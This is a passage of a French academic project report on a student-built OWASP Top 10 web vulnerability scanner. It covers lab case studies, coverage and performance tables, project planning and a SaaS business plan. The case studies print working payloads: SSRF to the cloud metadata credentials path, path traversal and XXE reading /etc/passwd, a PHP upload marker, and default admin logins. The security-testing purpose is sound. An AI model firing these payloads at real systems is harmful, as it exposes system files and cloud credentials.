Preuve    : Contenu interne retourne -- 'ami-id' detecte
Payload 2 : http://169.254.169.254/latest/meta-data/
Preuve    : 'security-credentials' detecte dans la reponse
Score     : 8.5 -- Eleve
\end{lstlisting}

\subsection{Étude de Cas 4 : Path Traversal — CVSS 7.5 ÉLEVÉ}

\begin{lstlisting}[style=bash, caption={Résultat — Path Traversal}]
Payload : ../../etc/passwd
Preuve  : root:x:0:0:root:/root:/bin/bash...
Score   : 7.5 -- Eleve
\end{lstlisting}

\subsection{Étude de Cas 5 : XXE — CVSS 8.2 ÉLEVÉ}

\begin{lstlisting}[language=xml, caption={Résultat — XXE Injection}]
<!-- Payload XML -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<request><data>&xxe;</data></request>
<!-- Preuve : contenu /etc/passwd dans la reponse XML -->
<!-- Score  : 8.2 -- Eleve -->
\end{lstlisting}

\subsection{Étude de Cas 6 : File Upload — CVSS 8.8 ÉLEVÉ}

\begin{lstlisting}[style=bash, caption={Résultat — File Upload}]
Fichier  : 806a29fb_shell.php
Contenu  : <?php echo "MARKER_806a29fb"; ?>
Preuve   : Marqueur retrouve dans la reponse HTTP 200
Score    : 8.8 -- Eleve (RCE potentiel)
\end{lstlisting}

\subsection{Étude de Cas 7 : Auth Failures — CVSS 9.8 CRITIQUE}

\begin{lstlisting}[style=bash, caption={Résultat — Auth Failures}]
Payload : username=admin, password=admin
Preuve  : Credentials par defaut acceptes -> /dashboard
Score   : 9.8 -- Critique
\end{lstlisting}

\subsection{Étude de Cas 8 : IDOR — CVSS 6.5 MOYEN}

\begin{lstlisting}[style=bash, caption={Résultat — IDOR}]
Payload     : id=1 -> id=2 -> id=3
Observation : Contenu different pour chaque ID, statut 200 OK
Score       : 6.5 -- Moyen
\end{lstlisting}

\section{Résultats Globaux et Analyse de Couverture}

\begin{table}[h!]
\centering
\caption{Tableau de bord — résultats complets du scan (70 vulnérabilités)}
\begin{tabular}{p{2cm}p{1cm}p{2cm}p{6cm}p{2cm}}
\toprule
\hdr{Sévérité} & \hdr{Nb} & \hdr{Score CVSS} & \hdr{Vulnérabilités} & \hdr{Remédiation} \\
\midrule
\rowcolor{gray!15} Critique & 2 & 9.0–10.0 & Auth Failures (A07), SQL Injection (A03) & $<$ 24h \\
\rowcolor{gray!8} Élevé & 6 & 7.0–8.9 & File Upload, SSRF, XXE, Crypto, Path Traversal & $<$ 7j \\
\rowcolor{white} Moyen & 62 & 4.0–6.9 & XSS$\times$N, IDOR$\times$N, Misconfig$\times$N & $<$ 30j \\
\rowB Faible & 0 & 0.1–3.9 & — & $<$ 90j \\
\midrule
\textbf{TOTAL} & \textbf{70} & — & \textbf{9/10 catégories OWASP couvertes} & — \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Couverture OWASP Top 10 Détaillée}

\begin{table}[h!]
\centering
\caption{Couverture détaillée par catégorie OWASP Top 10}
\resizebox{\textwidth}{!}{%
\begin{tabular}{p{1cm}p{4cm}p{4.5cm}p{2.5cm}p{1.5cm}}
\toprule
\hdr{Code} & \hdr{Catégorie OWASP 2021} & \hdr{Détecteur} & \hdr{Vulns} & \hdr{Statut} \\
\midrule
A01 & Broken Access Control & IDORDetector + PathTraversalDetector & IDOR$\times$N + PathTrav$\times$1 & \textcolor{green!60!black}{\textbf{Couvert}} \\
\rowA A02 & Cryptographic Failures & CryptographicFailuresDetector & 1 & \textcolor{green!60!black}{\textbf{Couvert}} \\
A03 & Injection & SQLiDetector + XSSDetector & 1 SQLi + 62 XSS & \textcolor{green!60!black}{\textbf{Couvert}} \\
\rowA A04 & Insecure Design & FileUploadDetector & 1 & \textcolor{green!60!black}{\textbf{Couvert}} \\
A05 & Security Misconfiguration & SecurityMisconfigDetector + XXEDetector & 1 XXE + N Misconfig & \textcolor{green!60!black}{\textbf{Couvert}} \\
\rowA A06 & Vulnerable Components & VulnerableComponentsDetector & N & \textcolor{green!60!black}{\textbf{Couvert}} \\
A07 & Auth \& Session Failures & AuthFailuresDetector & 1 & \textcolor{green!60!black}{\textbf{Couvert}} \\
\rowA A08 & Software \& Data Integrity & IntegrityDetector & N & \textcolor{green!60!black}{\textbf{Couvert}} \\
A09 & Logging \& Monitoring & — & 0 & \textcolor{orange}{\textbf{Non détectable}} \\
\rowA A10 & SSRF & SSRFDetector & 2 & \textcolor{green!60!black}{\textbf{Couvert}} \\
\bottomrule
\end{tabular}}
\end{table}

La catégorie A09 (Logging \& Monitoring Failures) ne peut pas être évaluée par un scan actif :
elle nécessite une inspection manuelle des journaux d'accès, des logs applicatifs et des
configurations SIEM.

\section{Analyse des Performances}

\begin{table}[h!]
\centering
\caption{Mesures de performance sur différentes cibles}
\begin{tabular}{p{4cm}p{1.2cm}p{1.5cm}p{2.5cm}p{1.5cm}p{1.2cm}}
\toprule
\hdr{Cible} & \hdr{Pages} & \hdr{Profond.} & \hdr{Détecteurs} & \hdr{Temps} & \hdr{Vulns} \\
\midrule
Flask test app (local)  & 11 & 2 & Tous (12)     & 6,04s  & 70 \\
\rowA Flask test (local)& 11 & 2 & sqli,xss seul.& 1,8s   & 63 \\
DVWA (VM, security=low) & 24 & 3 & Tous (12)     & 18,3s  & 87 \\
\rowA DVWA (security=medium) & 24 & 3 & Tous (12) & 21,7s  & 34 \\
\bottomrule
\end{tabular}
\end{table}

\begin{infobox}[title={Analyse des résultats de performance}]
\begin{itemize}[nosep]
  \item Le pipeline est linéaire en $O(\text{pages} \times \text{détecteurs} \times \text{payloads})$ — scalable
  \item La majorité du temps est passée dans les attentes HTTP (timeout de 10s par requête)
  \item Le mode \code{--only sqli,xss} réduit le temps de 70~\% tout en couvrant les failles les plus critiques
  \item Sur DVWA security=medium, 34 vulnérabilités vs 87 en low — les filtres réduisent la surface
  \item Pas de parallélisme natif — une optimisation future serait \code{asyncio}/\code{concurrent.futures}
\end{itemize}
\end{infobox}

% ────────────────────────────────────────────────────────────
\section{Conclusion}
% ────────────────────────────────────────────────────────────

Ce chapitre a présenté la réalisation complète du scanner. Les \textbf{42 tests unitaires}
valident la robustesse de chaque composant. Les huit études de cas démontrent la détection
effective des vulnérabilités critiques : \textbf{70 vulnérabilités détectées en 6 secondes}
sur 11 pages, couvrant 9 catégories sur 10 de l'OWASP Top 10 2021. Les résultats sur DVWA
confirment la pertinence et la précision de l'outil dans des conditions réelles. Le chapitre
suivant présente la gestion du projet et la planification des travaux.

% ============================================================
\chapter{Gestion de Projet}
% ============================================================

Ce chapitre présente la démarche de gestion de projet adoptée pour ce PFA. Il expose
le choix du cycle de vie, la répartition détaillée des tâches avec leurs dépendances, le
diagramme de Gantt, ainsi que la répartition des
ressources humaines, matérielles et le budget estimatif.

% ────────────────────────────────────────────────────────────
\section{Choix du cycle de vie}
% ────────────────────────────────────────────────────────────

\subsection{Présentation des cycles de vie}

Un cycle de vie de projet définit les phases par lesquelles passe un projet depuis son
lancement jusqu'à sa clôture. Dans le domaine informatique, plusieurs modèles existent,
chacun adapté à un type de projet particulier.

\begin{table}[h!]
\centering
\caption{Comparaison des cycles de vie de projet}
\begin{tabular}{p{3.5cm}p{5cm}p{4cm}}
\toprule
\hdr{Cycle de vie} & \hdr{Caractéristiques} & \hdr{Adapté pour} \\
\midrule
Cascade (Waterfall) & Phases séquentielles, livrables définis en amont, peu flexible &
  Projets bien spécifiés, exigences stables \\
\rowA Agile (Scrum) & Itérations courtes (sprints), adaptation continue, collaboration &
  Projets évolutifs, exigences changeantes \\
En V & Extension du modèle cascade avec phases de validation symétriques &
  Systèmes critiques, traçabilité forte \\
\rowA Spirale & Itérations avec analyse des risques à chaque cycle &
  Projets innovants à risques élevés \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Cycle de vie retenu : Agile/Scrum}

Pour ce projet, nous avons retenu le cycle de vie \textbf{Agile/Scrum}. Ce choix
se justifie par plusieurs raisons :

\begin{itemize}
  \item \textbf{Exigences évolutives :} Les détecteurs de vulnérabilités nécessitent
    des ajustements fréquents suite aux tests sur DVWA et les machines virtuelles.
    Le modèle Agile permet d'intégrer ces retours itérativement.

  \item \textbf{Développement incrémental :} Chaque détecteur (SQLi, XSS, SSRF, etc.)
    peut être développé, testé et intégré indépendamment, favorisant une livraison
    continue de valeur.

  \item \textbf{Flexibilité de la planification :} La durée limitée (14/03 au 18/05/2026,
    soit 10 semaines) et la nature académique du projet s'adaptent bien aux sprints
    de deux semaines.

  \item \textbf{Feedback continu :} Les sessions de validation avec l'encadrant permettent
    des corrections rapides à chaque fin de sprint.
\end{itemize}

Le cycle de vie Agile retenu s'articule autour des cinq phases suivantes :

\begin{enumerate}
  \item \textbf{Étude préalable et planification :} Analyse des besoins, état de l'art
    sur les vulnérabilités OWASP, choix technologiques, planification du projet.

  \item \textbf{Conception de l'architecture :} Définition de l'architecture en pipeline,
    conception des interfaces des détecteurs, modélisation UML.

  \item \textbf{Développement et implémentation :} Développement des 12 détecteurs,
    du CVSSEvaluator, du reporter HTML et de l'interface CLI.

  \item \textbf{Intégration et tests :} Tests unitaires, tests fonctionnels sur Flask app,
    tests de sécurité sur DVWA et machines virtuelles.

  \item \textbf{Rédaction et clôture :} Rédaction du rapport, analyse des résultats,
    préparation de la soutenance.
\end{enumerate}

% ────────────────────────────────────────────────────────────
\section{Répartition des tâches}
% ────────────────────────────────────────────────────────────

\subsection{Tableau des tâches, durées et antériorités}

Le tableau suivant présente l'ensemble des tâches du projet, avec leur durée estimée,
leurs dates de réalisation et leurs dépendances.

\begin{table}[h!]
\centering
\caption{Tableau de répartition des tâches avec durées et antériorités (14/03/2026 – 18/05/2026)}
\resizebox{\textwidth}{!}{%
\begin{tabular}{p{0.7cm}p{5.5cm}p{1.3cm}p{1.6cm}p{1.6cm}p{2.5cm}}
\toprule
\hdr{Réf.} & \hdr{Tâche} & \hdr{Durée (j)} & \hdr{Début} & \hdr{Fin} & \hdr{Antériorités} \\
\midrule
A & Étude des besoins et état de l'art & 5 & 14/03 & 20/03 & — \\
\rowA B & Cahier des charges et choix technologiques & 4 & 21/03 & 26/03 & A \\
C & Conception de l'architecture logicielle & 4 & 27/03 & 01/04 & B \\
\rowA D & Mise en place de l'environnement (VMs, Flask) & 3 & 27/03 & 30/03 & B \\
E & Développement des détecteurs SQLi et XSS & 6 & 02/04 & 09/04 & C, D \\
\rowA F & Développement des détecteurs SSRF et IDOR & 5 & 10/04 & 16/04 & E \\
G & Développement des détecteurs XXE, Upload, Auth & 5 & 10/04 & 16/04 & E \\
\rowA H & Module CVSSEvaluator et rapport HTML & 4 & 17/04 & 22/04 & F \\
I & Intégration CLI et orchestrateur & 3 & 17/04 & 21/04 & G \\
\rowA J & Tests unitaires et fonctionnels & 4 & 23/04 & 28/04 & H, I \\
K & Tests de sécurité sur DVWA et VMs & 4 & 23/04 & 28/04 & I \\
\rowA L & Analyse des résultats et corrections & 4 & 29/04 & 04/05 & J, K \\
M & Rédaction du rapport et documentation & 6 & 29/04 & 06/05 & J \\
\rowA N & Relecture, correction et finalisation & 3 & 07/05 & 11/05 & L, M \\
O & Préparation et soutenance & 5 & 12/05 & 18/05 & N \\
\bottomrule
\end{tabular}}
\end{table}

% ────────────────────────────────────────────────────────────
\section{Diagramme de Gantt}
% ────────────────────────────────────────────────────────────

Le diagramme de Gantt ci-dessous représente le calendrier de réalisation du projet du
14 mars 2026 au 18 mai 2026 (10 semaines). Les tâches du chemin critique sont
indiquées en rouge foncé.

Le chemin critique est : A $\rightarrow$ B $\rightarrow$ C $\rightarrow$ E
$\rightarrow$ F $\rightarrow$ H $\rightarrow$ J $\rightarrow$ L $\rightarrow$
N $\rightarrow$ O, représentant la succession de tâches dont tout retard entraînerait
un retard sur la date de fin du projet (18/05/2026).

\vspace{0.5cm}
\begin{center}
\begin{ganttchart}[
    hgrid,
    vgrid={*{1}{dotted}},
    title/.style={fill=owaspblue, draw=none},
    title label font=\small\bfseries\color{white},
    title height=1,
    bar/.style={fill=owaspblue!80, rounded corners=2pt},
    bar label font=\small,
    bar label node/.append style={text width=4.5cm, align=right, font=\small},
    group/.style={fill=owaspred!70, draw=owaspred, rounded corners=2pt},
    group label font=\small\bfseries\color{owaspred},
    milestone/.style={fill=owaspred, shape=diamond},
    x unit=0.74cm,
    y unit title=0.55cm,
    y unit chart=0.58cm,
    canvas/.style={draw=gray!30, fill=white},
    bar height=0.5,
    bar top shift=0.25,
    link/.style={-latex, thick, owaspred!80},
  ]{1}{10}
  % ── En-têtes semaines
  \gantttitle{\textbf{Mars}}{3}
  \gantttitle{\textbf{Avril}}{4}
  \gantttitle{\textbf{Mai}}{3} \\
  \gantttitlelist{1,...,10}{1} \\
  % ── Tâches (chemin critique en rouge, autres en bleu)
  \ganttbar[bar/.style={fill=owaspred!80}]{A -- \'Etude des besoins}{1}{1} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{B -- Cahier des charges}{2}{2} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{C -- Conception architecture}{2}{3} \\
  \ganttbar[bar/.style={fill=owaspblue!60}]{D -- Environnement VMs}{2}{2} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{E -- D\'etecteurs SQLi, XSS}{3}{4} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{F -- D\'etecteurs SSRF, IDOR}{4}{5} \\
  \ganttbar[bar/.style={fill=owaspblue!60}]{G -- D\'etecteurs XXE, Upload}{4}{5} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{H -- CVSS + Rapport HTML}{5}{6} \\
  \ganttbar[bar/.style={fill=owaspblue!60}]{I -- CLI + Orchestrateur}{5}{6} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{J -- Tests unitaires}{6}{7} \\
  \ganttbar[bar/.style={fill=owaspblue!60}]{K -- Tests DVWA/VMs}{6}{7} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{L -- Analyse r\'esultats}{7}{8} \\
  \ganttbar[bar/.style={fill=owaspblue!60}]{M -- R\'edaction rapport}{7}{8} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{N -- Finalisation}{8}{9} \\
  \ganttbar[bar/.style={fill=owaspred!80}]{O -- Soutenance}{9}{10} \\
  % ── Jalons
  \ganttmilestone{Fin conception}{3} \\
  \ganttmilestone{Livraison finale}{10}
  % ── Dépendances chemin critique
  \ganttlink{elem0}{elem1}
  \ganttlink{elem1}{elem2}
  \ganttlink{elem2}{elem4}
  \ganttlink{elem4}{elem5}
  \ganttlink{elem5}{elem7}
  \ganttlink{elem7}{elem9}
  \ganttlink{elem9}{elem11}
  \ganttlink{elem11}{elem13}
  \ganttlink{elem13}{elem14}
\end{ganttchart}
\end{center}
\vspace{0.2cm}
\begin{center}
{\small \textcolor{owaspred}{\rule{1cm}{4pt}} Chemin critique \quad
\textcolor{owaspblue!60}{\rule{1cm}{4pt}} Tâches non critiques}
\end{center}
\captionof{figure}{Diagramme de Gantt --- Planification du projet (14/03 au 18/05/2026)}

\vspace{0.5cm}

\begin{landscape}
\begin{figure}[p]
\centering

\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{gantt_planning.jpeg}
\caption{Diagramme de Gantt --- vue GanttProject avec dates de début et fin}
\end{figure}
\end{landscape}

\begin{landscape}
\begin{figure}[p]
\centering

\includegraphics[width=\linewidth,height=0.85\textheight,keepaspectratio]{gantt_ressources.jpeg}
\caption{Affectation des ressources par tâche --- vue GanttProject}
\end{figure}
\end{landscape}

% ────────────────────────────────────────────────────────────
\section{Répartition des ressources}
% ────────────────────────────────────────────────────────────

\subsection{Ressources humaines}

Le projet est réalisé par deux membres : Fatima Ezzahrae NOUAIMI (R1) et Salma EL KAMILI (R2),
encadrées par leur encadrant PFA. Le calendrier de travail retenu est de 5 jours par semaine,
à raison de 4 à 6 heures par jour.

\begin{table}[h!]
\centering
\caption{Ressources humaines du projet}
\begin{tabular}{p{4.5cm}p{3.5cm}p{5cm}}
\toprule
\hdr{Ressource} & \hdr{Rôle} & \hdr{Tâches principales} \\
\midrule
NOUAIMI Fatima (R1) & Développeuse Backend & A, B, C, E, F, H, J (co), L (co), N \\
\rowA EL KAMILI Salma (R2) & Développeuse Frontend & A, B, D, G, I, K, J (co), M, L (co), O \\
Encadrant PFA & Encadrant & Suivi, validation, conseils \\
\rowA Mme. DAOUDI & Ens. Gestion de Projet & Encadrement gestion de projet \\
Mme. BENYAHYA & Ens. Entrepreneuriat & Encadrement entrepreneuriat \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Ressources matérielles et logicielles}

\begin{table}[h!]
\centering
\caption{Ressources matérielles et logicielles du projet}
\begin{tabular}{p{4cm}p{3cm}p{5cm}}
\toprule
\hdr{Ressource} & \hdr{Type} & \hdr{Usage dans le projet} \\
\midrule
PC physique (×2) & Matériel & Hôtes de développement et de test \\
\rowA Oracle VM VirtualBox 7.x & Logiciel (gratuit) & Hyperviseur pour les VMs de test \\
Python 3.11 & Logiciel (open source) & Langage de développement principal \\
\rowA Flask + DVWA & Logiciel (open source) & Applications cibles de test \\
Kali Linux / Windows 10 VM & Logiciel (open source) & Environnements de test \\
\rowA pytest & Logiciel (open source) & Suite de tests unitaires \\
Git / GitHub & Logiciel (gratuit) & Gestion de version du code \\
\rowA \LaTeX{} / Overleaf & Logiciel & Rédaction du rapport \\
\bottomrule
\end{tabular}
\end{table}

\subsection{Affectation des ressources par phase}

\begin{table}[h!]
\centering
\caption{Affectation des ressources humaines par phase}
\begin{tabular}{p{3.5cm}p{1.5cm}p{1.5cm}p{1.5cm}p{1.5cm}p{1.5cm}}
\toprule
\hdr{Ressource} & \hdr{Ph. 1} & \hdr{Ph. 2} & \hdr{Ph. 3} & \hdr{Ph. 4} & \hdr{Ph. 5} \\
\midrule
R1 — Fatima & 100\% & 100\% & 60\% & 50\% & 100\% \\
\rowA R2 — Salma & 100\% & 50\% & 100\% & 50\% & 100\% \\
\midrule
\rowcolor{gray!12}Total & 2 & 1,5 & 1,6 & 1 & 2 \\
\bottomrule
\end{tabular}
\end{table}

\textit{Remarque : En Phase 3, Salma est à 100\% sur les détecteurs côté intégration CLI et
environnement (D, G, I) tandis que Fatima est à 60\% sur les détecteurs backend (E, F, H).
Cette répartition parallèle réduit la durée totale du projet.}

\subsection{Budget estimatif du projet}

\begin{table}[h!]
\centering
\caption{Budget estimatif du projet}
\begin{tabular}{p{5cm}p{3cm}p{3.5cm}}
\toprule
\hdr{Ressource} & \hdr{Type de coût} & \hdr{Coût estimé} \\
\midrule
Logiciels et outils & Coût direct (nul) & 0 MAD (open source) \\
\rowA Matériel informatique & Coût direct (existant) & 0 MAD (matériel propre) \\
Connexion internet & Coût indirect & Inclus dans frais courants \\
\rowA Temps de travail & Coût humain & $\approx$ 250 heures / étudiante \\
Documentation \& impression & Coût direct & $\approx$ 150 MAD \\
\midrule
\rowcolor{gray!12}\textbf{Coût total direct} & & \textbf{150 MAD} \\
\bottomrule
\end{tabular}
\end{table}

L'un des avantages majeurs de ce projet est la gratuité totale de la pile technologique
(Python, Flask, DVWA, VirtualBox, pytest, \LaTeX{}), démontrant qu'une solution professionnelle
de sécurité applicative est accessible sans investissement logiciel.

% ────────────────────────────────────────────────────────────
\section{Conclusion}
% ────────────────────────────────────────────────────────────

Ce chapitre a présenté la démarche de gestion de projet adoptée pour ce PFA. Le
cycle de vie Agile/Scrum s'est révélé parfaitement adapté à la nature itérative du
développement logiciel. Le diagramme de Gantt visualise le planning sur 10 semaines
(14/03 au 18/05/2026), identifie le chemin critique A→B→C→E→F→H→J→L→N→O
et organise le travail en parallèle entre les deux membres. La répartition des ressources
a été optimisée pour respecter les délais académiques tout en garantissant la qualité
des livrables.

% ============================================================
\chapter{Entrepreneuriat}
% ============================================================

Ce chapitre analyse la viabilité entrepreneuriale de notre scanner de vulnérabilités web en tant
que produit commercialisable. Nous présentons le modèle économique, le Business Model Canvas,
puis l'analyse financière complète basée sur une offre \textbf{SaaS} (Software as a Service)
à destination des développeurs, PME et équipes DevSecOps.

% ────────────────────────────────────────────────────────────
\section{Idée et Proposition de Valeur}
% ────────────────────────────────────────────────────────────

\begin{infobox}[title={Proposition de Valeur}]
\textbf{ImpleScan} est un scanner de vulnérabilités web open source proposé en mode SaaS.
Il détecte automatiquement les 9 catégories OWASP Top 10 les plus critiques, génère un rapport
HTML avec scoring CVSS v3.1, et s'intègre dans les pipelines CI/CD. Gratuit pour les projets
académiques, il offre un abonnement mensuel pour les entreprises souhaitant le support,
l'hébergement cloud et les mises à jour de signatures.
\end{infobox}

\begin{table}[h!]
\centering
\caption{Segments de clientèle cibles}
\begin{tabular}{p{3.5cm}p{4cm}p{4.5cm}}
\toprule
\hdr{Segment} & \hdr{Profil} & \hdr{Besoin principal} \\
\midrule
Développeurs indépendants & Freelances, startups & Scanner léger, gratuit, CLI \\
\rowA PME / TPE           & Équipes web 2–20 pers. & Audit régulier, rapport clair \\
Équipes DevSecOps         & CI/CD, GitHub Actions & Intégration pipeline, seuils CVSS \\
\rowA Établissements académiques & Universités, écoles & Formation sécurité web \\
\bottomrule
\end{tabular}
\end{table}

% ────────────────────────────────────────────────────────────
\section{Business Model Canvas}
% ────────────────────────────────────────────────────────────

\begin{table}[h!]
\centering
\caption{Business Model Canvas — ImpleScan}
\resizebox{\textwidth}{!}{%
\begin{tabular}{|p{3.2cm}|p{3.2cm}|p{3.5cm}|p{3.2cm}|p{3.2cm}|}
\hline
\cellcolor{gray!12}\textbf{Partenaires clés}
& \cellcolor{gray!12}\textbf{Activités clés}
& \cellcolor{gray!12}\textbf{Proposition de valeur}
& \cellcolor{gray!12}\textbf{Relation client}
& \cellcolor{gray!12}\textbf{Segments clients} \\
\hline
• OWASP Foundation\newline
• Hébergeur cloud (OVH/AWS)\newline
• GitHub / PyPI\newline
• Partenaires formation
&
• Développement détecteurs\newline
• Maintenance signatures CVE\newline
• Support utilisateurs\newline
• Marketing digital
&
\cellcolor{gray!8}
\textbf{Scanner OWASP automatique, léger, open source avec CVSS v3.1 et rapport HTML. Intégrable CI/CD.}
&
• Documentation en ligne\newline
• Communauté GitHub\newline
• Support email (Pro)\newline
• Tutoriels vidéo
&
• Développeurs web\newline
• PME / Startups\newline
• Équipes DevSecOps\newline
• Académique \\
\hline
\cellcolor{gray!12}\textbf{Ressources clés}
& \multicolumn{2}{c|}{\cellcolor{gray!12}\textbf{Canaux de distribution}}
& \multicolumn{2}{c|}{\cellcolor{gray!12}\textbf{Structure des coûts}} \\
\hline
• Code source Python\newline
• Base de signatures\newline
• Infrastructure serveur\newline
• Compétences sécurité
& \multicolumn{2}{c|}{
• GitHub (open source)\newline
• PyPI (pip install)\newline
• Site web officiel\newline
• LinkedIn / Dev.to
}
& \multicolumn{2}{c|}{
• Hébergement serveur : 300~MAD/mois\newline
• Marketing digital : 500~MAD/mois\newline
• Outils / logiciels : 300~MAD/mois\newline
• \textbf{Total charges fixes : 3~000~MAD/mois}
} \\
\hline
\multicolumn{5}{|c|}{\cellcolor{gray!10}
\textbf{Sources de revenus :}
Abonnement SaaS (99~MAD/mois) \textbullet{}
Audit sur mesure (500~MAD/session) \textbullet{}
Formation (200~MAD/pers.)
} \\
\hline
\end{tabular}}
\end{table}

% ────────────────────────────────────────────────────────────
\section{Tableau d'Analyse Financière}
% ────────────────────────────────────────────────────────────

\textit{Les projections sont établies sur la base d'un modèle SaaS avec abonnement mensuel
de 99~MAD, ciblant initialement 50 clients PME/développeurs au Maroc.}

% ── 0. Investissement initial ─────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{182}~~Investissement Initial}}

\begin{table}[h!]
\centering
\begin{tabular}{p{8cm}p{4cm}}
\toprule
\hdr{Investissements} & \hdr{Montant (MAD)} \\
\midrule
Matériel / équipements (PC, serveur test)    & 15~000 \\
\rowA Développement plateforme SaaS (site web + API) & 8~000 \\
Aménagement (espace de travail)              & 2~000 \\
\rowA Frais de création (SARL / auto-entrepreneur)   & 3~000 \\
Autres (communication, papeterie)            & 1~000 \\
\midrule
\rowcolor{gray!12}\textbf{Total investissement initial} & \textbf{29~000 MAD} \\
\bottomrule
\end{tabular}
\end{table}

% ── 1. Hypothèses de base ─────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{183}~~Hypothèses de Base}}

\begin{table}[h!]
\centering
\begin{tabular}{p{8cm}p{4cm}}
\toprule
\hdr{Élément} & \hdr{Valeur} \\
\midrule
Prix de vente unitaire (abonnement/mois)     & 99 MAD \\
\rowA Quantité vendue (abonnements mensuels) & 50 clients \\
Nombre de clients (objectif 6 mois)          & 50 \\
\rowA Modèle de revenus                      & SaaS mensuel \\
\bottomrule
\end{tabular}
\end{table}

% ── 2. Chiffre d'affaires ─────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{184}~~Chiffre d'Affaires}}

\begin{table}[h!]
\centering
\begin{tabular}{p{9cm}p{3cm}}
\toprule
\hdr{Calcul} & \hdr{Résultat} \\
\midrule
CA = Prix $\times$ Quantité = 99 $\times$ 50  & 4~950 MAD/mois \\
\rowcolor{gray!12}\textbf{CA mensuel total} & \textbf{4~950 MAD} \\
\bottomrule
\end{tabular}
\end{table}

% ── 3. Coûts variables ────────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{185}~~Coûts Variables}}

\begin{table}[h!]
\centering
\begin{tabular}{p{8cm}p{4cm}}
\toprule
\hdr{Type de coût} & \hdr{Montant unitaire (MAD)} \\
\midrule
Hébergement cloud par client (VPS partagé)   & 5 \\
\rowA Support technique par client            & 3 \\
Coût de bande passante / transfert données    & 0 \\
\rowA Autres (frais de paiement en ligne)     & 0 \\
\midrule
\rowcolor{gray!12}\textbf{Total coût variable unitaire} & \textbf{8 MAD / client} \\
\bottomrule
\end{tabular}
\end{table}

% ── 4. Marge ──────────────────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{186}~~Marge}}

\begin{table}[h!]
\centering
\begin{tabular}{p{9cm}p{3cm}}
\toprule
\hdr{Calcul} & \hdr{Résultat} \\
\midrule
Marge unitaire = 99 $-$ 8                      & 91 MAD \\
\rowA Marge totale = 91 $\times$ 50             & 4~550 MAD \\
\rowcolor{gray!12}\textbf{Taux de marge = (91 $\div$ 99) $\times$ 100}
  & \textbf{91,9~\%} \\
\bottomrule
\end{tabular}
\end{table}

% ── 5. Charges fixes ──────────────────────────────────────
\subsection*{\textcolor{owaspblue}{\ding{187}~~Charges Fixes Mensuelles}}

\begin{table}[h!]
\centering
\begin{tabular}{p{8cm}p{4cm}}
\toprule
\hdr{Charges fixes mensuelles} & \hdr{Montant (MAD)} \\
\midrule
Salaires (2 associés, temps partiel)          & 2~000 \\
